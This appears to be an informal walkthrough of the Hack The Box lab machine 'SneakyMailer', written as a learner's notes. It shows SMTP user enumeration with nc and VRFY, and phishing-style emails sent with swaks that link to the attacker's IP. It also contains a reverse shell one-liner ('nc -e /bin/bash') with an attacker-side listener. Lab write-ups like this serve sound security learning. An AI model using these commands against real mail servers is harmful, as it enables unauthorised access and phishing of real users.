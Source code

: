 add sneakycorp.htb to /etc/hosts with its ip address

verify emails exist using the port using:

```
nc 10.10.10.197 25
```
and then

```
vrfy laelgreer@sneakymailer.htb

```

try smtp enumeration using this: https://www.hackingarticles.in/4-ways-smtp-enumeration/ and fail
try sending mails using this syntax and try to get a reverse shell using ```nc -e /bin/bash yourip port (nc -vlp on the attacker side) ```

reverse shell doesnt work but putting nc on port 80 would make it a simple http request, and u can send it via browser and try sending it mails,
test it on ur local by oopening a browser and typing http://localhost


for sending emails use 
https://www.wikihow.com/Send-Email-Using-Telnet


tried the following and failed
```
nc 10.10.10.197 25
220 debian ESMTP Postfix (Debian/GNU)
MAIL FROM: laelgreer@sneakymailer.htb
250 2.1.0 Ok
RCPT TO: glorialittle@sneakymailer.htb
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
http://10.10.14.117

<CR><LF>.<CR><LF>

.
250 2.0.0 Ok: queued as E99702470F
quit
221 2.0.0 Bye
```


to see all available commnad use ehlo command at port 25
```

ehlo
501 Syntax: EHLO hostname
ehlo 10.10.10.197
250-debian
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
```


https://linux.die.net/man/1/swaks
after that try using swaks and pray to science that all will be good.

using swaks like
```
swaks -to paulbyrd@sneakymailer.htb -server 10.10.10.197 -from glorialittle@sneakymailer.htb -body "http://10.10.14.117/"
```
didnt work the out put was crap
